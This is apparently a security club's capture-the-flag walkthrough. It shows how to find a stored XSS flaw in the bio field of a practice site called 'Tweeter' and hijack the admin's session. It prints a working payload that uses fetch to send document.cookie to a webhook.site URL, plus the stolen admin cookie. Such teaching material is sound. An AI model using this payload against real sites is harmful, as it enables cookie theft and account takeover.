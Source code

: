 # XSS on Tweeter

Thanks for coming to our first meeting! We hope you learned something, even if you didn't get to solve the challenge during the meeting. Below is a walkthrough of how to find and exploit the XSS vulnerability in Tweeter, and hopefully this makes a bit more clear what's happening in an XSS attack.

## Finding the vulnerability
The website doesn't have too much functionality: you can sign up, log in, make posts, change your password, and edit your bio. Testing for XSS is essentially just putting `<script>alert(document.domain)</script>` into all the fields you can. In this case, the vulnerable field is the user bio, and the payload is triggered when visiting your profile.

![JavaScript alert triggered from tweeter.umdctf.io](xss-poc.png)

## Building the exploit
Now that we can execute JavaScript, we need a way to log in as the admin. The website distinguishes users by their cookies, so we just need to steal the admin's cookies and set our cookies to be the same.

In JavaScript, website cookies can be accessed through the `document.cookie` property, which you can read more about [here](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie).

We also need some way to send the cookies back to us, since we don't have access to the admin's computer. This can be done by sending a request with the admin's cookies to somewhere that lets us monitor requests, such as [webhook.site](https://webhook.site). The payload for this is below:
```html
<script>
	fetch(
		"https://webhook.site/443b7e1e-bd3f-4e38-9976-9da3abe33f11?cookies=" +
		encodeURIComponent(document.cookie))
</script>
```
We can break this down as follows:
- The first line opens a script tag, which lets us execute JavaScript code.
- The second line calls the `fetch` function, which sends a request to the provided URL. More info [here](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch).
- The third line is the URL of our webhook, with `?cookies=` added to the end. The question mark denotes the start of the query parameters, where we can put our cookies. Then `cookies=` starts a parameter with the name `cookies`.
- The fourth line encodes the value `document.cookie` to be put in the URL parameter.

## Running the Exploit
We put the payload above in our bio and send the link to our profile to the admin. When the admin visits the link, the payload will execute and send a request which will show up in our webhook.

![Image of webhook.site panel, showing the location of the query parameters](request-in-webhooksite-panel.png)

Inspecting the request in the webhook.site panel, we can see the value of the `cookie` query parameter is `user=YSH+uCoYHrhxCYY9O6%2FrhimfpoLULLQ7cCVngV4AD24%3Dadmin`. The `document.cookie` property puts cookies in the form `key=value`, so the admin's cookie is `YSH+uCoYHrhxCYY9O6%2FrhimfpoLULLQ7cCVngV4AD24%3Dadmin`.

After setting your user cookie to the admin's cookie (instructions for [Chrome](https://developer.chrome.com/docs/devtools/application/cookies/) and [Firefox](https://firefox-source-docs.mozilla.org/devtools-user/storage_inspector/cookies/index.html)) and reloading, you'll be logged in as the admin. Now you can head over to the "Manage Users" link and give yourself Blue.

